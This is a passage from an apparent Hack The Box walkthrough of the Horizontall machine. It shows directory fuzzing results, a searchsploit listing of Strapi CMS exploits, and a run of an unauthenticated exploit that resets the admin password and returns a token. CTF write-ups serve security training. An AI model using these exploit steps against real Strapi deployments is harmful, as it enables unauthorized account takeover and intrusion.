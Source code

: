 ```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000246:   200        16 L     101 W      854 Ch      "admin"
000000189:   403        0 L      1 W        60 Ch       "users"
000000124:   200        0 L      21 W       507 Ch      "reviews"
000001596:   200        0 L      21 W       507 Ch      "Reviews"
```

We see an **/admin** which will lead us to an instance of **Strapi**:

{{< image src="/img/hor-8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

# **```Foothold```**

We don't have any credentials so we might aswell just start looking for vulnerabilities:
```bash
❯ searchsploit strapi
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                             | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                           | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                     | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                       | nodejs/webapps/50716.rb
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

With **searchsploit** we find some exploits for version **3.0.0-beta.17.4**, we don't know what version the server is running but we can still try to execute it:
```bash
❯ searchsploit -m multiple/webapps/50239.py

  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
File Type: Python script, ASCII text executable

Copied to: /home/logan/Desktop/HTB/Horizontall/exploits/50239.py


❯ python3 50239.py http://api-prod.horizontall.htb/

[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU2OTkxMDU2LCJleHAiOjE2NTk1ODMwNTZ9.
```